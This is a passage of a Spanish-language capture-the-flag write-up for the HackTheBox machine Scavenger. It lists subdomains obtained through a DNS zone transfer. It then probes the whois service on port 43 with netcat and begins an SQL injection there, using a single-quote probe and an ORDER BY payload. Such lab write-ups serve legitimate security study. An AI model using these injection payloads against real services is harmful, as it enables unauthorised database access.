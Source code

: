 Aqui vemos que es vulnerable y vemos unos dominios 

    - root.supersechosting.htb
    - ftp.supersechosting.htb
    - whois.supersechosting.htb
    - www.supersechosting.htb
    - mail1.supersechosting.htb
    - ns1.supersechosting.htb

Los añadimos al 
```bash
 /etc/hosts 
```


```{r, echo = FALSE, fig.cap="hosts despues del domain transfer attack", out.width="90%"}
    knitr::include_graphics("images/scavenger-hosts2.png")

![scaveer-hosts2](/assets/images/scavenger-hosts2.png) 
#### Whois {-}

Como el puerto 43 esta abierto. podemos intentar conectar con la maquina para entablar peticiones whois.

```bash
nc 10.10.10.155 43
EEEE
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
% This query returned 0 object
```

Como vemos que MariaDB esta por detras intentamos ponerle una comilla

```bash
nc 10.10.10.155 43
'
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB...
```

### SQL Injection por Whois {-}

Como el mensaje nos da 
```bash
 the right syntax to use near "''") 
```
 ya vemos como podemos montarnos el ataque.

```bash
nc 10.10.10.155 43
') ORDER BY 100#
#Output
Unknown column '100' in 'order clause'
```

